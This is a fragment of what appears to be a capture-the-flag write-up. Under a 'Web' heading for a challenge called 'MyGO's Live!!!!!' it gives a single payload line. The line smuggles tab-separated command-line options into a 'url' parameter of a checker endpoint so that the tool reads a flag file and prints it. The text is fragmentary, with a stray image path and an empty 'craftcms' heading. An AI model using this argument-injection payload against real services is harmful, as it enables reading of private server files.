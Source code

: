 ## Web
### MyGO's Live!!!!!

```shell
checker?url=%09-iL%09/flag-d5b6d51594b888dd%09-o%09/dev/stdout
```

### craftcms
